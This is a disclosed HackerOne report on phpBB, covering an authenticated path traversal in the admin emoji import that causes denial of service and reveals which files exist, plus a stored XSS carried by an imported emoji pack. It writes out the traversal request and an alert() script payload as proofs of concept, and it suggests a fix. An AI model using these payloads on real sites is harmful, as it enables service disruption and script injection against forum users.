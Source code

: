 # Authenticated path traversal to Stored XSS and Denial-of-Service

## Report Details
- **Report ID**: 2168002
- **URL**: https://hackerone.com/reports/2168002
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2023-09-17T15:20:56.459Z
- **Disclosed**: 2023-10-29T20:51:20.987Z

## Reporter
- **Username**: shin24
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: phpbb

## Vulnerability Information
# Denial-of-Service
The vulnerabiity lies on the line `552` of `acp_icons.php`file, when importing emoji from a file we can tell phpBB which file to import from via the paramter `pak`, without any sanitization, the `pak` paramter gets passed dirrectly to `file` the file function, which attemp to read the content of the file to an array.
{F2705838}
Because of the check, reading files like /etc/passwd would not be possible, but if we try to read files like /proc/self/fd/1, the request will hang, a TCP connection will be kept open, the will bring lots of burden to the server. More over, in the case when phpBB is behind a proxy, which may process concurrent request one by one, in this case, if the previous request has not finished, the the rest of requests will have to wait for it to timeout, causing a Denial-of-Service

In the progress of testing, i use the default HTTP server of PHP, which simulate exactly what a one-by-one request processing proxy would do.
Request:
```
POST /adm/index.php?i=acp_icons&mode=smilies&current=delete HTTP/1.1
Host: 127.0.0.1:8082
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Content-Type: application/x-www-form-urlencoded
Referer: http://127.0.0.1:8082/adm/index.php?i=acp_icons&mode=smilies
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: csrftoken=Ky6rB5uThxl3PwYd6EScmT9WXYiH6rGe; sessionid=hmrhwwo5hj5abu4kqgln2let1x9zudbr; phpbb3_83bmg_u=2; phpbb3_83bmg_k=zalvonnyh1lr16og; phpbb3_83bmg_sid=3ba797a8668f6db1639ac6939d91f96e
Connection: close
Content-Length: 137

action=import&pak=../../../../../../../../../proc/self/fd/1&form_token=b2655d5f0c9edb201328b799a61777b26cef16a5&creation_time=1694960302
```
Result timed-out and no response received:
{F2705858}

This vulnerability can also help an authenticated attacker know which file exist on server by observe the response message, if the file is not found, the error from `$user->lang['PAK_FILE_NOT_READABLE']` would trigger and result in different message than `$user->lang['WRONG_PAK_TYPE']`(when the file exist but has invalid format)
# Stored XSS
When testing the emoji import, i also observe that the `SMILEY_IMG` isn't sanitized or escaped
{F2705870} 
So we can import a malicious emoji file containing the XSS payload, everyone who access the sites (posting section, comment section, admin section, ...) that emoji presents will trigger the XSS payload, leading to web defacement, cookie stealing, malware attack, ... 
```
'icon_e_biggrin.gif', '15', '17', '1', 'Very Happy', ':D',
'icon_e_biggrin.gif', '15', '17', '1', 'Very Happy', ':-D',
'icon_e_biggrin.gif', '15', '17', '1', 'Very Happy', ':grin:',
'icon_e_smile.gif', '15', '17', '1', 'Smile', ':)',
'icon_e_smile.gif', '15', '17', '1', 'Smile', ':-)',
'icon_e_smile.gif', '15', '17', '1', 'Smile', ':smile:',
'icon_e_wink.gif', '15', '17', '1', 'Wink', ';)',
'icon_e_wink.gif', '15', '17', '1', 'Wink', ';-)',
'icon_e_wink.gif', '15', '17', '1', 'Wink', ':wink:',
'icon_e_sad.gif', '15', '17', '1', 'Sad', ':(',
'icon_e_sad.gif', '15', '17', '1', 'Sad', ':-(',
'icon_e_sad.gif', '15', '17', '1', 'Sad', ':sad:',
'icon_e_surprised.gif', '15', '17', '1', 'Surprised', ':o',
'icon_e_surprised.gif', '15', '17', '1', 'Surprised', ':-o',
'icon_e_surprised.gif', '15', '17', '1', 'Surprised', ':eek:',
'icon_eek.gif', '15', '17', '1', 'Shocked', ':shock:',
'icon_e_confused.gif', '15', '17', '1', 'Confused', ':?',
'icon_e_confused.gif', '15', '17', '1', 'Confused', ':-?',
'icon_e_confused.gif', '15', '17', '1', 'Confused', ':???:',
'"onmouseover=alert() ><script>alert()</script>', '17', '18', '1', 'POC', ':POC:',
```
The problem is, if the attacker has no file access permission, how would he be able to import emoji from files? In here, i abused the function of PHP that it will create an tmp file in /tmp and has an file descriptor pointing at it (in my case was /proc/self/fd/10) when php process an uploading, then we will spam a lot of upload attachment request and in the same time, use race condition to import the file before it's deleted. Below i record a short video, spaming the upload request and use a small php file which emulate the behavior of the import function for demonstration purpose, i would be quite the same with the real function but if i turn on to many tab for race condition and also the recorder, i laptop will explose...

{F2705889}

The final result:
{F2705893}

## Impact

The impact for both DoS and XSS has been mentioned above

# Mitigation
I suggest HTML entity encoding data from emoji before show to client, limiting the folder of which user can import the emoji from.

## Attachments
- image.png
- image.png
- image.png
- 2023-09-17_22-09-28.mkv
- image.png
